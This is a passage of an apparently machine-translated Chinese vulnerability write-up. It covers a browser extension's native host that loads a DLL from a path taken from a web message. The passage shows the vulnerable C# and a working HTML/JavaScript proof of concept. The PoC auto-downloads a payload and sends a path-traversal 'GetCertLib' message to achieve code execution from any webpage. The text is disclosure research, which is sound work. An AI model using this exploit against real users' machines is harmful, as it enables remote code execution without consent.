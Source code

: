 那么原生应用是如何处理该消息的呢？首先，我们必须确定与 关联的应用example.b.chrome.host。扩展的网站提供了针对各种操作系统的相应原生应用。还提供了一些集成源代码，二进制文件本身是一个 .NET 程序集。  
  
stdin从那里，我们可以识别出将解析为包含键的 JSON 对象的消息解析代码action。对于该GetCertLib操作，它获取 JSON 对象中项目的值PKCS11Lib，并最终将其传递给在路径上加载 DLL 的函数PKCS11Lib。  
```
public static TxnRespWithObj<List<X509Certificate2>> EnumerateSCCertificates(string PKCS11Lib)
    {
      List<X509Certificate2> x509Certificate2List = new List<X509Certificate2>();
      TxnRespWithObj<List<X509Certificate2>> txnRespWithObj1;
      try
      {
        string str = "C:\\Windows\\System32\\" + PKCS11Lib;
        if (!File.Exists(str))
          return new TxnRespWithObj<List<X509Certificate2>>()
          {
            IsSuccess = false,
            TxnOutcome = "Required Smartcard driver " + str + " not found. Install token drivers and try again."
          };
        using (IPkcs11Library pkcs11Library = PKCS11SCUnlock.Factories.Pkcs11LibraryFactory.LoadPkcs11Library(PKCS11SCUnlock.Factories, str, AppType.MultiThreaded))
```  
  
这是 DLL 加载的一种非常常见的遍历模式，我也在ZScaler 客户端连接器中利用了它。  
  
因此，通过首先触发恶意 DLL 文件的下载，然后发送带有操作的消息GetCertLib并PKCS11Lib指向下载位置，攻击者可以从任何网页跳转到完整的命令执行，只要受害者安装了扩展和匹配的本机应用程序。  
```
<script>
    // Function to handle incoming postMessage events
    function receiveMessage(event) {
        // Access the data sent from the other window/iframe
        const receivedData = event.data;

        // Create a new paragraph element to display the message
        const newMessage = document.createElement('p');
        newMessage.textContent = JSON.stringify(receivedData);

        // Append the new message to the message container
        const messageContainer = document.getElementById('messageContainer');
        messageContainer.appendChild(newMessage);
    }

    // Add event listener to listen for postMessage events
    window.addEventListener('message', receiveMessage);

function runPoc() {
window.postMessage({src: 'user_page.js', action: 'GetCertLib', PKCS11Lib: '..\\..\\..\\..\\..\\Users\\James\\Downloads\\payload.txt'}, "*")
}

function downloadPayload() {
  const downloadLink = document.getElementById('download');
  downloadLink.click()
  setTimeout(runPoc, 2000);
}

setTimeout(downloadPayload, 2000);
</script>
```  
  